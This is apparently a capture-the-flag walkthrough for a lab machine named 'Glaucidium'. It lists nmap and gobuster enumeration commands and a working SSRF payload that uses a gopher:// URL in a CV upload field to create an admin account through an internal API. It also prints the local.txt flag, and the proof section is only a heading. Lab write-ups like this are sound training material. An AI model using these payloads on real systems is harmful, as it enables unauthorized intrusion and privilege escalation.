





# **Glaucidium**

---
## **LOCAL.TXT**

## **Run Nmap to see running services**
```
sudo nmap -O -Pn 192.168.164.121
```
 

## **Run Gobuster for directory/file enumeration**
```
gobuster dir -u 192.168.164.121 -w /usr/share/wordlists/dirb/common.txt
```
 

- http://192.168.164.121:80/api endpoint is there but it requires authentication.

## **Exploit SSRF in the CV upload feature to retrieve sensitive API documentation.**

- Register a guest user and login with that user. 

- Intercept the upload CV request and try to access the api endpoint for cv parameter.

 

- Here you can see it gives the api defination file.

```
            "request": {
              "body": {
                "mode": "formdata",
                "formdata": [
                  { "key": "username", "type": "text", "value": "" },
                  { "key": "password", "type": "text", "value": "" }
                ]
              },
              "header": [],
              "method": "POST",
              "url": {
                "raw": "{{url}}/api/admin/create",
                "host": ["{{url}}"],
                "path": ["api", "admin", "create"]
              }
            },
```

## **Use the API to create an admin account and escalate privileges.**

```
cv=gopher://127.0.0.1:80/_POST /api/admin/create HTTP/1.1
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
username=amrityam&password=amrityam
```

URL Encoded:
```
cv=gopher://127.0.0.1:80/_POST%20/api/admin/create%20HTTP/1.1%0AHost:%20localhost%0AContent-Type:%20application/x-www-form-urlencoded;charset=UTF-8%0AContent-Length:%2035%0A%0Ausername=amrityam%26password=amrityam
```

 

This gives success response.

- Now login with that admin user account. Then you can find the local.txt flag here.

 

### local.txt flag:  1a496056f58a309d2e118cb8a8797b42

---

## **PROOF.TXT**